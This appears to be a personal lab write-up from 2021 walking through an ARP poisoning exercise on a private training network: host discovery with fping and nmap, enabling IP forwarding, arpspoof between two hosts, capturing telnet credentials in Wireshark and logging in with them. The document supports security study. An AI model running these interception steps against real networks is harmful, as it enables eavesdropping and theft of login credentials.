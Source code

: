 # ARP Poisoning 

> Makayla Ferrell | July 28th, 2021

### Steps 

1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Find Network IP range 
```
ip a 
```
10.100.13.140/24

3. Find active hosts with fping 
```
fping -a -g 10.100.13.140/24 2>/dev/null 
```
The target machines are 10.100.13.37 and 10.100.13.140

4. Nmap scan targets
10.100.13.37 telnet/23 ssh/22
10.100.13.36 ssh/22 

5. Set linux to correct settings for arp poisoning 
```
echo 1 > /proc/sys/net/ipv4/ip_forward
https://askubuntu.com/questions/783017/bash-proc-sys-net-ipv4-ip-forward-permission-denied 
```

6. attack victims 
```
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```

7. Run wireshark to intercept telnet traffic only
filter telnet and follow tcp stream for crednetials 

8. Login to telnet 
```
telnet 10.100.13.37 
elsuser:Mys3crtP455
```
